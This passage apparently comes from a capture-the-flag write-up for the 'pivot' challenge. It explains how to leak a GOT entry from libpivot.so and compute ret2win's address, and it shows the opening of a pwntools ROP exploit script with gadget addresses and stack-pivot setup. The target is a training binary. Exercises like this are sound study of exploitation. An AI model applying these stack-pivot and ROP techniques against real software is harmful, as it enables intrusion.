 And look at the imported functions:

```
[0x00400760]> ii
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x004006d0 GLOBAL FUNC       free
2   0x004006e0 GLOBAL FUNC       puts
3   0x004006f0 GLOBAL FUNC       printf
4   0x00400700 GLOBAL FUNC       memset
5   0x00400710 GLOBAL FUNC       read
6   0x00000000 GLOBAL FUNC       __libc_start_main
7   0x00000000 WEAK   NOTYPE     __gmon_start__
8   0x00400720 GLOBAL FUNC       foothold_function
9   0x00400730 GLOBAL FUNC       malloc
10  0x00400740 GLOBAL FUNC       setvbuf
11  0x00400750 GLOBAL FUNC       exit
```

Since `foothold_function` is an import from `libpivot.so`, we can leak the dynamic entry to `foothold_function` in the **GOT (Global Offset Table)**.
However, to populate the `foothold_function` entry in the GOT, the program first needs to have invoked it.
After leaking the location of the `foothold_function` GOT entry, we can use the offset at which `ret2win` is located in `libpivot.so` to calculate the absolute memory location of `ret2win` in the executable's runtime.

The code below is updated with a ROP chain that satisfies all the criteria above.
You may notice that most gadgets are from the `usefulGadgets` symbol in `pivot`.
However, it takes more ROP gadgets to properly implement a ROP chain that will eventuall call `ret2win`.

If you wish to analyze the ROP chains in action, you can uncomment the debugging section in the code.

```python
import binascii
from pwn import *

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './pivot'
io = process(PROCESS)

# Debugging
'''
gdbscript = "b *0x4009a7"
pid = gdb.attach(io, gdbscript=gdbscript)
'''

# ROP Gadgets
pop_rax_ret = p64(0x004009bb)       # pop rax; ret;
xchg_rax_rsp_ret = p64(0x004009bd)  # xchg rax, rsp; ret;
mov_rax_mrax = p64(0x004009c0)      # mov rax, qword [rax]; ret;
add_rax_rbp = p64(0x004009c4)       # add rax, rbp; ret;
pop_rbp_ret = p64(0x00400829)       # pop rbp; ret;
call_rax = p64(0x004006b0)          # call rax; ret;

# Get the leaked pivot address
io.recvuntil(b"The Old Gods kindly bestow upon you a place to pivot: 0x")
raw_pivot_addr = io.recvline().strip().rjust(16, b"0")
pivot_addr = u64(binascii.unhexlify(raw_pivot_addr), endian='big')
```